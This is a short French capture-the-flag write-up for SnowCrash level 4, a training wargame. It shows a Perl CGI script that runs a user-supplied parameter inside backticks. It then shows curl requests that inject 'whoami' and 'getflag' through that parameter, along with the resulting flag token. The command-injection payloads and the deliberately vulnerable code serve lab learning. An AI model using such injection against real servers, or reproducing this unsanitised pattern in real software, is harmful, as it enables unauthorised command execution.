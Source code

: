# Level04

## level04.pl

```sh
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce script est un script CGI (Common Gateway Interface) écrit en Perl. Il s'exécute en dehors d'une machine distante comme un serveur Web. Ce script s'exécute via un navigateur Web, prend les paramètres de requête GET ou POST et appelle la fonction x().

La fonction x() stocke la valeur passée en paramètre dans la variable $y et imprime la variable $y via la commande echo. Où 2>&1 redirige la sortie d'erreur standard vers la sortie standard.

Ainsi, le script level04.pl génère les paramètres transmis par l'utilisateur et on peut transmettre des commandes shell arbitraires aux paramètres. Cela peut conduire à des vulnérabilités d'injection de commandes.

##

Paramètres d'envoi

```sh
curl localhost:4747/?x=\`CMD\`
```

```sh
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`whoami\`"
flag04
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```

